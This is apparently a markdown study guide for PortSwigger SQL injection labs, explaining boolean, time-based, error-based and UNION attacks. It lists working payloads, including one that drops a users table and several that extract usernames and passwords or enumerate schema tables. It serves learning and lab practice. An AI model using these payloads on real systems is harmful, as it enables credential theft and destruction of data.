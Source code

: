 # Injection Examples: [Lab-Solutions](https://github.com/IOxCyber/CyberEssentials/blob/f759882896be05d29c88b3d7bc31fc83759afab3/Security-Tools/Burp_Suite/PortSwigger-WebSecAcad/Web_Vuln-Insights/SQL%20Injection/SQLi_Labs.md)

## A. `Retrieving hidden data`, where you can modify a SQL query to return additional results.

### 1. Testing for boolean-based attacks:
- Original Query: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
- Modified: ![image](https://github.com/user-attachments/assets/e4236490-1079-4f23-92c9-a4097f63a50c)
- Query to executed by DB after injections: `SELECT * FROM products;`

### Injections:
- `'OR '1'='1` - This payload appends an OR condition that always evaluates to true.
- `'OR 1=1 --` - This payload appends an OR condition that always evaluates to true, commenting out the remaining portion of the original query.
- `'OR 'x'='x` - This payload compares a string with itself, resulting in a true condition.

### 2. Testing for time-based attacks:
- `'OR SLEEP(5) --` - This payload tries to induce a delay of 5 seconds in the SQL query execution by using the SLEEP function. If the website is vulnerable, it will take longer to respond.
- `'OR BENCHMARK(10000000,SHA1(1)) --` - This payload attempts to measure the time taken to execute the SHA1 function a large number of times, causing a significant delay if the SQL injection is successful.

### 3. Testing for error-based attacks:
- `'OR 1=1; DROP TABLE users; --` - This payload combines a valid condition (1=1) with a malicious action (DROP TABLE users), potentially causing an error and deleting the "users" table.
-  `'OR 1=1 UNION ALL SELECT NULL, CONCAT(username,':', password) FROM users --` - This payload attempts to perform a UNION-based SQL injection to retrieve the usernames and passwords from the "users" table.

---
---

## B. `Subverting/interfering with application logic`, change a query to interfere with the application's logic.
- Testing on a login page involves attempting to subvert the application logic and bypass the authentication mechanism
- `SELECT * FROM users WHERE username = 'administrator'--' AND password = ''` commenting out the remaining portion of the original query.

---
---

# UNION Attack

## C. UNION attacks `to combine the result sets of two or more SELECT statements in a single SQL query`

### 1. `Retrieve data from different database tables.`
- eg. `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

## NOTE: For a Union Query to work: Both queries should `Return same number of Columns, Data type must be compatiable.`

### Example
1. Original Query: `SELECT * FROM users WHERE username = 'input_username' AND password = 'input_password';`

2. Injection: `username ' UNION SELECT null, table_name FROM information_schema.tables --` (-- to comment out rest of the original query)

3. Modified Query: `SELECT * FROM users WHERE username = '' UNION SELECT null, table_name FROM information_schema.tables --' AND password = 'input_password';`

### 2. Determining the number of columns required `No. of columns being returned from the original query` #LAB-4
- Motive: Determine the Columns Numbers > 

- Method 1: `injecting a series of ORDER BY clauses and incrementing` the specified column index until an error occurs.
> `ORDER BY` clause in SQL is used to sort the result set of a query by one or more columns.
```
eg.
SELECT * FROM employees WHERE age > 25 ORDER BY salary DESC;

' ORDER BY 1--    **It means to sort the table by column 1**
' ORDER BY 2--
' ORDER BY 3--
etc.
```
- Method 2: Submitting a series of `UNION SELECT` payloads specifying a different number of null values.
> NULL is convertible to every common data type, so it maximizes the chance that the payload will succeed.
```
eg.

' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```

### Finding columns with a useful data type # Lab-5
- `After we determine the number of returning columns, we can probe each column to test whether it can hold string data.`
- We can submit a series of UNION SELECT payloads that place a string value into each column.
```
eg.

' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
> If the column data type is not compatible with string data, the injected query will cause a database error.


### Using a SQL injection UNION attack `to retrieve column(s) that can hold string`: #LAB-6
- Once, we determined the `number of columns returned` by the original query and found which `columns can hold string data`, you are in a position to retrieve interesting data.
```
eg.

The original query returns two columns, both of which can hold string data.
The injection point is a quoted string within the WHERE clause.
The database contains a table called users with the columns username and password.

In this example, you can retrieve the contents of the `users` table by submitting the input:

' UNION SELECT username, password FROM users--
```
> To perform above attack, we need to know that there is a `table USERS with two columns` called `username and password.`

### Retrieving multiple values within a single column: # LAB-7
- Can `retrieve multiple values together within this single column by concatenating the values` together.
- determine the No. of columns > determine which column allows TEXT values > retrieve Multiple TEXT values in a single Column.
- Oracle DB Injection: `' UNION SELECT username || '~' || password FROM users--`


### 














